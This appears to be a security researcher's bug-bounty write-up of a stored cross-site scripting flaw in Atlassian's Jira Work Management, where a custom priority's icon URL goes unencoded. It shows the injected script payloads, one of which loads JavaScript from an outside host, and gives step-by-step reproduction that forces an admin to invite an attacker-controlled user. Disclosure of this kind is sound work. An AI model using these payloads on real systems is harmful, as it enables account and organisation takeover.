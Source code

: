 Jira Work Management is a widely used collaboration tool designed to help teams track all activity considered work. Work might include running projects, managing approval processes, performing daily and periodic tasks, creating documents, and Managing issues.

Our team recently found an Stored XSS issue in Jira Work management which allowed them to demonistrate an Full Orginisation Takeover impact within Jira Work Management Software of Atlassian. 


## Vulnerabilty Discovery

Jira work management is one of the products that lie within Atlaissian Eco-system and is accessable through the url `bugbounty-test-<bugcrowd-name>.atlassian.net/jira/your-work`


![image](https://user-images.githubusercontent.com/88488902/196861542-5a40d52e-c7d6-42e4-bc19-ea9b2df7b71d.png)

Different organizations use Jira work Management to track different kinds of issues, which can represent anything from a software bug, to a project task, or a leave request form.

![image](https://user-images.githubusercontent.com/88488902/196862718-107760da-0dbd-4fe6-90a5-59cae71ab8de.png)


users can create issues and track them, Issues in Jira are made up of fields that store various pieces of information. Every issue comes with default system fields, like name or description, Periority etc, An issue's priority indicates its relative importance within the target Orginisation.

Jira Work Management provide  default priorities values like(Highest, High, Medium, Low, Lowest) But Both the priorities and their meanings can be customized by your administrator to suit your organization. 


We Noticed An user with proper permissions can create a new Custom Periority with icon URL Property set to `https://google.com?name=</script><script>alert(0)</script>` 

![image](https://user-images.githubusercontent.com/88488902/196863642-d9afd97e-14ad-4001-acdd-0cd8906d55a4.png)


On Saving the Periority, it seems there was no Validation(Encoding) or `Icon Url` property happening at the backend, hence triggered an XSS at the Frontend.

![image](https://user-images.githubusercontent.com/88488902/196864070-f2f97700-bed7-41a4-a30d-ae234d961b48.png)




## Security Impact

In the context of web application the Stored XSS has an Known impact, Stored XSS (also known as second-order XSS) is the most dangerous type of cross-site scripting attack. The reason is that it does not require users to click a malicious link or perform any activity, other than browsing to a legitimate web page. Once an attacker discovers a stored XSS vulnerability and stores the XSS code into the context of the the target web application, all visitors to affected pages can be compromised by either stealing their session cookies/Tokens or making several changes(email-change etc) to their account leading to full account takeover impact.

The real challenge for us was demonstrating the proper impact of the vulnerability. Because this was an authenticated XSS, we went straight to Jira User management and spent some time understanding user roles and their and levels of access within the application.

The goal was to find the lowest-level role possible that could create the Custom Priority with an XSS payload and then deliver the attack to Admin/Super admins within the organisation.

and we landed on `Product admin permission` , He had no permission to access any of the jira products like Confluence, Service management which means he don't have access to any Jira applications but can perform administration tasks which includes Editing Issues Periorties.

![image](https://user-images.githubusercontent.com/88488902/196865675-619bd57f-ba4a-4b65-81ab-deddd7a2461c.png)

and we landed on `Product admin permission` , He had no permission to access any of the jira products like Confluence, Service management which means he don't have access to any Jira applications but can perform administration tasks which includes Editing Issues Periorties.


## Performing a Full orginisation takeover

Now let's assume we have invited an User with Product admin permission > he has no permission to access any of the jira products like Confluence, Service management which means he don't have access to any Jira applications but can perform administration tasks which includes Editing Issues Periorties.

- Login with an User with Product admin permission , Click on Setting Icon and then Click on Issues

![image](https://user-images.githubusercontent.com/88488902/196865675-619bd57f-ba4a-4b65-81ab-deddd7a2461c.png)


- Now Scroll down and Add a new Priorities with the following icon url, and click ADD button `https://google.com?name=</script><script src=https://snapsec.co/jira-xss.js></script>`


![image](https://user-images.githubusercontent.com/88488902/196865804-378e702f-3d10-4220-b8b4-3b9de3bab597.png)



- Now as soon as Admin Visits the same page from his browser, An invite request will be sent from his browser .

![image](https://user-images.githubusercontent.com/88488902/196865837-2ef2a8e5-a04a-4285-ac34-acb116e64bf4.png)

- and to confirm you can go to user management and see attacker forced admin to invited a new user with access to 3 products, Hence would allow him to view/create/delete/modify projects in those products


![image](https://user-images.githubusercontent.com/88488902/196865866-8a6f5e62-9aeb-4dbd-b77e-9f0f87f701d5.png)






